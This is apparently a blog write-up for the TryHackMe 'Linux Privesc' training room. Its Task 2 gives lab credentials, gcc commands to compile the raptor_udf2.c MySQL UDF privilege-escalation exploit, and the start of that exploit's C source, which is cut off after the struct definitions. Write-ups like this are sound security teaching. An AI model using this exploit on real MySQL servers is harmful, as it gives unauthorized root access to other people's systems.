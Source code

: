 ```yaml
---
title: Writeup for TryHackMe room - Linux Privesc
author: 4n3i5v74
date: 2021-04-03 00:00:00 +0530
categories: [CTF, TryHackMe]
tags: [tryhackme, writeup, ctf, linux, privesc]
pin: false
---
```



<div class="flex-container">
  <script src="https://tryhackme.com/badge/34685"></script>
</div>


## [Linux Privesc](https://tryhackme.com/room/linuxprivesc){:target="_blank"}

This room contains detailed info about linux privilege escalation methods.

For complete tryhackme path, refer the [link](https://4n3i5v74.github.io/posts/getting-started-with-cybersecurity-tryhackme/){:target="_blank"}. Refer [link](https://4n3i5v74.github.io/posts/tryhackme-common-linux-privesc/){:target="_blank"} for quick reference on `linux privilege escalation`.


## Task 1 - Deploy the Vulnerable Debian VM

Use these links as references.
- [Linux Privilege Escalation Workshop](https://github.com/sagishahar/lpeworkshop){:target="_blank"}


## Task 2 - Service Exploits

Use these links as references.
- [MySQL UDF exploit](https://www.exploit-db.com/exploits/1518){:target="_blank"}
- [MySQL UDF reference](https://github.com/mysqludf){:target="_blank"}

Login to the target using credentials `user:password321`.

Compile the raptor_udf2.c exploit code.
{% capture code %}{% raw %}gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc{% endraw %}{% endcapture %} {% include code.html code=code %}

The exploit code is similar to below.
{% capture code %}{% raw %}#include <stdio.h>
#include <stdlib.h>

enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};

typedef struct st_udf_args {
    unsigned int		arg_count;	// number of arguments
    enum Item_result	*arg_type;	// pointer to item_result
    char 			**args;		// pointer to arguments
    unsigned long		*lengths;	// length of string args
    char			*maybe_null;	// 1 for maybe_null args
} UDF_ARGS;

typedef struct st_udf_init {
    char			maybe_null;	// 1 if func can return NULL
    unsigned int		decimals;	// for real functions
    unsigned long 		max_length;	// for string functions
    char			*ptr;		// free ptr for func data
    char			const_item;	// 0 if result is constant
} UDF_INIT;
